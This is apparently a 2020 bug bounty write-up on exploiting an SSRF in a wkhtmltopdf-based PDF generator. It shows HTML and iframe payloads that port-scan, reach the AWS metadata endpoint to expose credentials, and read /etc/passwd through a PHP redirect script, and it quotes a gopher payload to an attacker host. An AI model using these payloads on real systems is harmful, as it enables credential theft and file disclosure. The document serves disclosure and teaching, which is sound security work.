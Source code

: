 ```yaml
---
title: "[EN] - Exploiting my first SSRF"
date: 2020-03-01T14:00:00+02:00
draft: false
tags: ["BugBounty", "SSRF", "Tips", "Writeup"]
---
```


This week on a BugBounty program which I left aside I found my first SSRF, here is my writeup.

## Recon
The scope is restricted to the website and its API, rather basic it allows to register as a simple user and has only a few features. 

The program has been open for several months already, I approached the site thinking I probably won't find much. 

However from the first hours I already had several P2 (IDOR). A scope perhaps more interesting than expected ... so I spent some time to observe the various features and how they work as a simple user.

After some tests I noticed a feature that allows to generate a PDF with data entered by the user, the software used is *WKHTMLTOPDF* in its version *0.12.3*. 

Interesting, especially since recently I could read the excellent presentation of Nahamsec "[Owning the cloud through SSRF and PDF generators](https://docs.google.com/presentation/d/1JdIjHHPsFSgLbaJcHmMkE904jmwPM4xdhEuwhy2ebvo/edit#slide=id.g5df2243028_2_81)", if I retained at least 1 thing from this presentation it's the sentence "*If you see a PDF generator somewhere, 9/10 it's vulnerable*".

After some tests I finally didn't manage to exploit the feature, at least not on this endpoint ! 

While continuing to use the site and its features I came across a page that allowed me to add items and then generate a PDF of them, ok ... let's try again. I first started with a basic payload:

```html
<b>TEST</b>
```

Nothing ... try something else :

```html
<a href="https://google.fr">xxx</a>
```

This time, it's well reflected in the PDF and the link is clickable, so it's possible to inject HTML!

## Exploitation

In the rush I directly wanted to load the contents of the file "/etc/passwd" with the following payload :
```html
<iframe src="file:///etc/passwd">
```

Unfortunately the iframe was empty, so I tested a first payload to check that it was possible to interact with an external resource.
```html
<iframe src="https://{MY_SERVER}/x.png">
```

While generating the PDF, I received the request to my server, which confirmed that it is possible to use an iframe, so I tested various techniques, including port scanning with a payload of the type :
```html
<iframe src="https://domain.tld:80">
<iframe src="https://domain.tld:25">
<iframe src="https://domain.tld:22">
```

When a port was not available I got a 500 error from the server, ok so I got a blind SSRF but I wanted more than a simple port scan! Then I remembered that at one point in the site when you want to access a document the URL is of the type *https://domain.tld/s3/get/document/8/{RESSOURCE_ID}*.

![](/images/2020/bounty/SSRF_S3.png)

Hum. .., *S3* ? Maybe an AWS instance, let's test that :

```html
<iframe src="http://169.254.169.254">
```

Boom ! I have access to the AWS instance and its content, including credentials (API tokens, etc...) which are private and sensitive elements.

![](/images/2020/bounty/SSRF_AWS_KEY.png)

## Digging

Ok cool, this SSRF is already critical, but in the end I wanted to load a local file on the server such as "*/etc/passwd*", after some tests and bypassing technique I always end up with an empty iframe.

Then while talking with a hunter friend, he showed me a very interesting technique, a PHP code snippet that allows to include an iframe to an external URL that will redirect to 127.0.0.1 but with the possibility to include a parameter such as "*file://*"" to load a local file.

The code snippet is as follows:
```php
$loc = "http://127.0.0.1/";

if(isset($_GET['a'])){
    $loc = $_GET['a'];
}
header('Location: '.$loc);
```

So I quickly set it up on my server (You will have understood that it is necessary to have a web server with PHP installed for this piece of code to be usable).

I can now use the following payload:
```html
<iframe src="https://my_server.tld/ssrf.php?a=file:///etc/passwd">
```

I generate the new PDF and hop! I have the content of the desired file :D

## Conclusion
This SSRF is interesting because even if it may remain quite "simple", it shows that you should not stop at the first payload that works (the port scan in my case) and try to dig for the most critical scenario.

In the end, by looking closer, on the Github repository of [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) it is possible to find the following payload:
```php
<?php
  header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>
```

That you only have to modify in this to get the same result as above:
```php
<?php
 header("Location: file:///etc/passwd");
?>
```

The advantage of the code snippet above is that it is possible to directly include the wrapper with the desired payload as a parameter rather than modifying the content of the php file each time.

Initially I hadn't watched this program because I didn't find it interesting, it's only several months after I decided to have a look at it, although several hunters have raised vulnerabilities I learned here that it's always interesting to go back to an "old scope".

That doesn't mean the other hunters were bad because each hunter has its own methodology and favorite vulnerabilities, especially since this is a production site so there is a strong chance that there have been changes or new features that weren't available before.